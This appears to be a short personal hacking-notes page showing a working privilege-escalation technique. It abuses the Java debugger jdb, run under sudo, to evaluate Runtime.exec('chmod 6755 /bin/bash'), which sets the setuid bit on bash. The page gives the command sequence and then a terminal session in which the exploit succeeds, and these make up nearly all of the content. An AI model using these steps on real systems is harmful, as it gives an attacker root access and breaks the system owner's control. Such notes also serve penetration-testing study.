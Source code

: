 # java jdb execute commands
```
stop on Main.main
run
eval java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash");
cont
```
```
user@hostname:~$ sudo /usr/bin/jdb -classpath /root/ Main
Initializing jdb ...
> stop on Main.main
Deferring breakpoint Main.main.
It will be set after the class is loaded.
> run
run Main
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
>
VM Started: Set deferred breakpoint Main.main

Breakpoint hit: "thread=main", Main.main(), line=5 bci=0
5               System.out.println("Hello World!");

main[1] eval java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash");
 java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash"); = "Process[pid=3332, exitValue="not exited"]"
main[1] cont
> Hello World!

The application exited
```

` zet/20221003150292/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node

Tags:

    
